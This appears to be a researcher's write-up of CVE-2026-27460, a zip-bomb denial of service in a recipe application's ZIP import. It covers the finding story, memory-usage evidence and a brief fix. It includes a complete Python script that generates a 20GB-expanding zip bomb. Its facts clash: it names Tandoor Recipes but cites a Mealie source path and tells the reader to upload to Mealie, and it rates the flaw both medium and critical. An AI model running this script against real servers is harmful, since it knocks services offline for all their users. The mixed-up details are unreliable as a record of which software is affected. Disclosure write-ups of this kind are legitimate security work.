

# CVE-2026-27460 - Denial of Service via Recipe Import

## Application

**Application:** [Recipe Management Application](https://github.com/TandoorRecipes/recipes/) ↗ • [GitHub Security Advisory](https://github.com/TandoorRecipes/recipes/security/advisories/GHSA-w8pq-4pwf-r2m8) ↗

| | |
|---|---|
| **Affected Versions** | `< 2.6.5` |
| **Patched Version** | `2.6.5` |
| **Severity** | **Medium (CVSS 6.5)** |
| **CVSS Vector** | `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:H` |

---

### Story of Finding CVE-2026-27460

This was my first CVE, where I spent several weeks testing this application, exploring different attack vectors. Initially, I discovered that a basic Server Side Template Injection (SSTI) payload (`{{ 7*7 }}` → `49`) was successfully evaluated. However, I couldn't escalate it to Remote Code Execution (RCE) because the application was designed to sanitize dangerous SSTI payloads. I encountered a similar situation while testing for XXE (XML External Entity) injection the basic test payload worked, but the malicious payloads were properly blocked.

While continuing my assessment, I noticed that the application allowed users to upload ZIP files containing XML, image, and text files. Naturally, I focused on testing the upload functionality for XML injection and other file related vulnerabilities. Once again, the harmless payloads worked as expected, but every dangerous payload was filtered out. After several failed attempts, I started feeling frustrated.

Out of curiosity and partly out of frustration I uploaded a ZIP file containing my favorite movie collection just to see how the application handled a large upload. To my surprise, the Docker container hosting the application suddenly crashed and exited. That unexpected moment made me stop and think, "Wait... why did that happen?"

I then realized that the application didn't enforce any meaningful file size restrictions. It accepted extremely large uploads without validation. That's when it clicked: unrestricted file uploads could potentially be abused to trigger a `Denial of Service (DoS)` attack.

To verify my thought, I uploaded another oversized ZIP file in a controlled manner. As expected, the upload consumed excessive server resources and caused the application to become unavailable, confirming a Denial of Service vulnerability.

<div align="center">

</div>

### Summary

A critical Denial of Service (DoS) vulnerability was in the recipe import functionality. This vulnerability allows an authenticated user to crash the server or make a significantly degrade its performance by uploading a large size ZIP file (ZIP Bomb)

### Description

The application provides a functionality to import recipes from a ZIP archive. The create_from_zip function extracts files from the uploaded archive directly into memory using myfile.read(). It does not validate the uncompressed size of the files before reading them which could leads to the Denial of Service

Source file which leads to the vulnerability is `mealie/services/recipe/recipe_service.py` -> create_from_zip

### PoC

A Proof of Concept (PoC) ZIP file was created containing a 20GB "zeroes" payload compressed into a ~20MB archive. When uploaded to the `http://localhost/recipe/import` (recipe import via App), the server attempted to expand the file into RAM

**System Resource Impact which runs on Docker Container:**

Baseline Memory: ~300MB per Gunicorn worker  
During Exploit: Memory usage spiked to 12.3GB for a single worker process  
Available Free Memory: Dropped to ~191MB  
Top Output Evidence:



The process (PID 46) reached 12.3GB committed memory (105% of physical VSZ), consuming all available resources and likely causing severe swapping or OOM kills

### Impact

- Ease of Exploitation: Creating a ZIP bomb is trivial. The attack requires only a standard user account and a standard file upload
- Unrestricted File Upload (file size is not checked)
- It is common in all zip file upload functionalities
- Impact: It causes a complete denial of service. The operating system's OOM (Out of Memory) Killer will terminate the application process, or the server will swap to death, making it unresponsive to all users
- Data Amplification: The compression ratio allowed the attacker to send a very small payload (< 20MB) that expanded to > 20GB in memory (Ratio > 1,000:1)
- No Special Access: It does not require administrative privileges
- The file size can be generated according to system. For the docker 20GB file showed the impact, but for production servers may vary

**Exploit Script: (for 20GB)**

```
import zipfile
import os

def create_zip_bomb(filename="bomb.zip", size_gb=1):
    print(f"[*] Creating {filename} with a {size_gb}GB payload...")
    
    with zipfile.ZipFile(filename, 'w', zipfile.ZIP_DEFLATED, allowZip64=True) as zf:
        with zf.open('recipe.json', 'w', force_zip64=True) as f:
            f.write(b'{"name": "')
            chunk_size = 1024 * 1024 * 10 
            total_bytes = size_gb * 1024 * 1024 * 1024
            written = 0
            
            # Content of 0s
            zeros = b'0' * chunk_size
            
            while written < total_bytes:
                f.write(zeros)
                written += chunk_size
                if written % (1024 * 1024 * 100) == 0:
                    print(f"    Written {written / 1024 / 1024:.0f} MB...")
            
            # End JSON
            f.write(b'"}')

    print(f"[+] Created {filename}. Upload this file to Mealie's 'Import from ZIP' feature.")
    print(f"    Compressed size: {os.path.getsize(filename) / 1024 / 1024:.2f} MB")

if __name__ == "__main__":
    create_zip_bomb("bomb.zip", size_gb=20)
```

### Recommended Fix

Restrict the File size so that the large file cannot be upload and Avoid reading the content of the large file directly into the RAM